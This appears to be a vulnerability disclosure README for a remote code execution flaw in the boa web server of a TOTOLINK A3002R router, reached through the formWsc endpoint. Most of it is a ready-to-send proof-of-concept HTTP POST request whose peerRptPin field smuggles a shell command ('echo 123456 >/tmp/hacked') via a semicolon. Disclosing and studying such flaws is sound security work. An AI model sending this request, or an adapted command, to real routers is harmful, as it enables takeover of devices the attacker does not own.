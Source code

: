 # totolink_A3002R_RCE

A Remote Code Execution in /bin/boa on totolink A3002R V4.0.0-B20230531.1404 via formWsc

![](./imgs/GWGIM8MQLG66J.png)

addr :0x444f9c
RCE in sub_444398


## POC

使用BurpSuite改包如下
```
POST /boafrm/formWsc HTTP/1.1

Host: 192.168.0.1

Content-Length: 100

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Origin: http://192.168.0.1

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.0.1/parent_control.htm

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



sessionCheck=9c724dad350ba657c557edb39f81c100&setRptPIN=1&peerRptPin=20;echo%20123456%20>/tmp/hacked
```

![](./imgs/0f512651548db2c70916a2ed66d70fc9.png)